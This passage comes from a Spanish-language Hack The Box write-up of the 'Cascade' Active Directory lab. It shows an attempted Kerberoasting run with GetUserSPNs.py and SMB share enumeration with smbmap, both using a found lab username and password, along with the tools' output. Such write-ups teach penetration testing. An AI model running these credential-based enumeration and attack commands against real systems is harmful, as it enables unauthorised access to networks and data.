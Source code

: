 Me monto un servicio HTTP con python y visualizo los datos desde el navegador

Dos usuarios pertenecen al grupo Remote Management Users

<img src="/writeups/assets/img/Cascade-htb/1.png" alt="">

El usuario ArkSvc pertenece a AD Recycle Bin, lo que significa que tiene acceso a recursos que han sido borrados

<img src="/writeups/assets/img/Cascade-htb/2.png" alt="">

Pruebo un Kerberoasting Attack, pero no es el caso

```null
GetUserSPNs.py cascade.local/r.thompson:rY4n5eva
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

Ahora ya puedo listar los recursos compartidos

```null
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
[+] IP: 10.10.10.182:445	Name: cascade.local                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share 
```

Listo los subdirectorios para Data

```null
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' -r 'Data'
[+] IP: 10.10.10.182:445	Name: cascade.local                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Data                                              	READ ONLY	
	.\Data\*
	dr--r--r--                0 Tue Jan 28 22:05:51 2020	.
	dr--r--r--                0 Tue Jan 28 22:05:51 2020	..
	dr--r--r--                0 Mon Jan 13 01:45:14 2020	Contractors
	dr--r--r--                0 Mon Jan 13 01:45:10 2020	Finance
	dr--r--r--                0 Tue Jan 28 18:04:51 2020	IT
	dr--r--r--                0 Mon Jan 13 01:45:20 2020	Production
	dr--r--r--                0 Mon Jan 13 01:45:16 2020	Temps
```
